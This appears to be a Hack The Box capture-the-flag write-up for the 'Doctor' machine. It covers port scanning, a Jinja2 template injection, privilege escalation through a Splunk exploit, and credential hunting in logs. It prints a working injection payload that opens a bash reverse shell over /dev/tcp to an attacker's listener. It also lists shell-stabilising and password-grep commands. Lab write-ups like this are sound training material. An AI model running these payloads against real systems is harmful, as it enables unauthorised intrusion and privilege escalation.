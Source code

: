 # Hack the box
## Doctor writeup

### Enumeartion / Recon

+ nmap port scan - ```nmap -sC -sV -oN nmap.txt 10.10.10.209```
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23:4e5c:546d:8895:0f5f:8f42:5e90:6787
|_SHA-1: 7ec9:1bb7:343f:f7f6:bdd7:d015:d720:6f6f:19e2:098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
+ Open ports are
  + ssh on port 22
  + http on port 80
  + splunk on port 8089

+ Nothing interesting found on the website, looks like a static website, checking hostnames
+ Found a hostname ```doctors.htb``` on the website, adding to ```/etc/hosts``` file
+ Visiting doctors.htb sends us to another page
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/cde2e474-48ac-406a-aa38-107b86c7b564)
+ We can register and it creates an account for 20 minutes
+ Checking the source and see something strange -
```bash
<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
```
+ This looks like a blog post website, we can create posts on this website.
+ Checking /archive directory but nothing interesting
+ Checking the source of /archive and found something interesting, it has xml output of the posts that we create. Checking for XXE and SSTI vulnerabilities.
+ TRYING SSTI hacktricks injection ```{{ 7*7 }}```, no success on the blog page
+ But we get 49 on the archive source ```view-source:http://doctors.htb/archive```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/58379fa5-5355-4014-aec1-113cebd7ae90)

+ Testing multiple Server Side Template Injection from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
+ **SUCCESS** We have successful SSTI
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/7da4af12-c81a-428f-81bd-7caedaf941ff)

### Initial Foothold

+ Checking for reverse shell payloads on PayloadAllTheThings SSTI - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
+ The one that worked was - ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/<ip>/4444 0>&1'").read()}}{%endif%}{%endfor%}```
+ Starting netcat listener, refreshing the /archive direcroty - ```nc -lvnp 4444``` and getting reverse shell as web@doctor
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2e42813a-dcba-415b-bdbf-b15d7951a808)
+ ```/home``` directory has another user shaun with user.txt file
+ We are part of the admin group, we can check audit logs for passwords
  ```bash
  id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

### Lateral movement

+ To get user we need access to shaun user
+ Making the shell stable
  1. run this command ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` on victim machine
  2. if the above doesn't work try - ```script -qc /bin/bash /dev/null```
  3. Do **ctrl+z** to background the process
  4. On your host machine in the same session do ```stty raw -echo;fg``` + Enter + Enter
  5. Now you have a stable shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/69c9d560-27e9-415b-9dfb-890b9f950dd6)

+ Running Linpeas on the machine
+ Found something in the logs
```bash
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
+ Trying the password for shaun user
+ **BOOM**, we are user

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6dc8a106-f03d-4179-8165-504fc8b7999d)

### Privilege escalation

+ Splunk is running on the machine 
+ Checking who is running splunk
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/e21dea3b-0b59-4aef-b05d-4695d319b512)
+ This can be a way to get root if splunk is vulnerable to code execution
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/d0e774cc-44e5-44ed-8bfa-8fc93accf825)
+ This seems pretty outdated, checking exploits online.
+ Found an exploit for this version called SplunkWhisperer2 - https://github.com/cnotin/SplunkWhisperer2.git
+ Running the exploit
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/3837527a-08c3-41ef-a979-ab7c8d316bf2)
+ We get authentication failure, since we have the creds from earlier enumeration, we can try the credentials
+ Adding a reverse shell payload from - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/0acf874a-a1e3-44cc-9bd3-ce4591808089)
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/16999956-7a6a-4598-aa27-a1655be541cd)
+ PWNED !!!

## Highlights

1. **Enumeration** - Nmap scan - We did an initial nmap scan and discovered a lot of things, port 22 SSH, the banner tells us we are running an Ubuntu server, http website which led us to code execution via the SSTI injection, Splunk port 8089 which gave us root access to the machine.
2. **Preparation** - Github repos and EXPLOIT-DB - finding reverse shell payloads, finding POCs of exploits from CVE IDs, finding injecton payloads.
3. **Exploitation** - Running the exploits, Ensuring that all the dependencies are installed for the exploits to run.
>one thing I did not mention was for running the final exploit to get root, I did not have my python set up properly so I could not run
```pip3 -r requirements.txt```
>I had to create a virtual environment and then install the requirements, which was successful, read more here - https://docs.python.org/3/library/venv.html
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/f47527d0-5b11-460b-a75a-02e05109df58)
4. **Post Exploitation** - Running Linpeas.sh (from the PEASS suite - https://github.com/peass-ng/PEASS-ng/tree/master), searching for passwords in files - ```grep -R -e 'password' <dir>```, checking running processes - ```ps -ef ```

